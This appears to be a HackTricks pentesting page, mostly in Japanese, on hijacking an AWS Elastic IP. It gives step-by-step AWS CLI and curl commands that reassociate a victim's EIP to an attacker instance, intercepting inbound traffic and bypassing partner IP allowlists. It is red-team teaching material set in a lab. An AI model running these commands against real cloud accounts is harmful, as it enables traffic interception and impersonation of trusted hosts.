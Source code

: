 # AWS - Elastic IP Hijack for Ingress/Egress IP Impersonation

{{#include ../../../../banners/hacktricks-training.md}}

## 概要

`ec2:AssociateAddress`（任意で `ec2:DisassociateAddress`）を悪用して、victim instance/ENI から attacker instance/ENI に Elastic IP (EIP) を再関連付けします。これにより、EIP 宛ての着信トラフィックは attacker にリダイレクトされ、また attacker は許可リストに登録されたパブリックIP を使って発信トラフィックを生成し、外部パートナーのファイアウォールを回避できます。

## 前提条件
- 同一アカウント/VPC 内の対象 EIP allocation ID。
- あなたが制御する attacker instance/ENI。
- 権限:
- `ec2:DescribeAddresses`
- `ec2:AssociateAddress` が EIP allocation-id と attacker instance/ENI に対して必要
- `ec2:DisassociateAddress`（任意）。注意: `--allow-reassociation` は前のアタッチメントから自動的にディスアソシエイトします。

## 攻撃

変数
```bash
REGION=us-east-1
ATTACKER_INSTANCE=<i-attacker>
VICTIM_INSTANCE=<i-victim>
```
1) victimのEIPを割り当てるか特定する (labが新しいEIPを割り当ててvictimにアタッチする)
```bash
ALLOC_ID=$(aws ec2 allocate-address --domain vpc --region $REGION --query AllocationId --output text)
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $VICTIM_INSTANCE --region $REGION
EIP=$(aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION --query Addresses[0].PublicIp --output text)
```
2) EIPが現在ターゲットのサービスを指していることを確認する（例: bannerの確認）
```bash
curl -sS http://$EIP | grep -i victim
```
3) EIPをattackerに再関連付けする（victimから自動的に切り離される）
```bash
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $ATTACKER_INSTANCE --allow-reassociation --region $REGION
```
4) EIPがattacker serviceに解決されていることを確認する
```bash
sleep 5; curl -sS http://$EIP | grep -i attacker
```
証拠（移動された関連付け）:
```bash
aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION \
--query Addresses[0].AssociationId --output text
```
## 影響
- Inbound impersonation: hijacked EIP への全てのトラフィックが attacker instance/ENI に配信される。
- Outbound impersonation: Attacker は allowlisted public IP から発信されたように見えるトラフィックを開始できる（partner/external source IP filters を回避するのに有用）。

{{#include ../../../../banners/hacktricks-training.md}}
